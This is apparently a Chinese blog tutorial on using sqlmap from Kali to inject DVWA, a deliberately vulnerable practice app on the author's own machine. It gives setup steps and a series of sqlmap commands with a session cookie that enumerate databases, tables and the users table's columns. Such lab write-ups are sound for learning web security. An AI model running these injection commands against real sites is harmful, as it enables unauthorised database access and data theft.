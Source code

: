 ```yaml
---
title: 利用sqlmap注入dvwa
date: 2019-10-13 11:17:30
tags: [sqlmap，sql注入，dvwa]
categories: sql注入
---
```


利用sqlmap对dvwa进行注入。

<!--more-->

kali自带sqlmap，在主机安装DVWA

DVWA的安装：

http://www.dvwa.co.uk/

进入网址，下载zip，解压到www目录下，修改www/DVWA/config/config.inc.php中的数据库密码

浏览器进入localhost/DVWA/输入默认用户名admin,密码password，然后点击页面上的“create/reset database”就可以完成了，将DVWA security改成非impossible

![LBPT_7ZN9O_Z6Z_9_9_GJCN.png](https://i.loli.net/2019/10/13/Yr1mnjIOKhF3fJD.png)

在kali上上启动sqlmap，由于我是虚拟机上运行的sqlmap，只需要将localhost换成主机IP即可

开始注入url:

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0"
```

由于这个注入页面需要登陆，所以还得加上cookie(chrome下cookie导出工具editthiscookie),过程中会不断让输入Y/N，可以加上参数--batch，来自动填写默认值。

![_GCJPZ3_5T3T97_6K37__QN.png](https://i.loli.net/2019/10/13/6X3MUkLP5Nftz2e.png)

得到数据库类型版本信息(mysql)，服务器类型版本信息(apache，php)

用--dbs查看数据库名

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0" --batch --dbs
```

![7QU2_IR5VYECTF~_V~QPQ_6.png](https://i.loli.net/2019/10/13/JoAiTGRt9q4FNeL.png)

得到6个数据库名

用--D xxx查看指定数据库，--tables查看数据库中表信息

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0" --batch -D dvwa --tables
```

![__O`CQDEB_3S_A_WIYRY089.png](https://i.loli.net/2019/10/13/3sNWgyEmRpejlhI.png)

得到了数据库dvwa的所有表名

用--T xxx查看指定表，--columns查看表的列信息

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0" --batch -D dvwa -T users --columns
```

![_K_TD7~IC_AW_D_~656GBNQ.png](https://i.loli.net/2019/10/13/3xNvIqEUPbjOCJM.png)

得到了数据库dvwa中表users的数据信息

注入成功！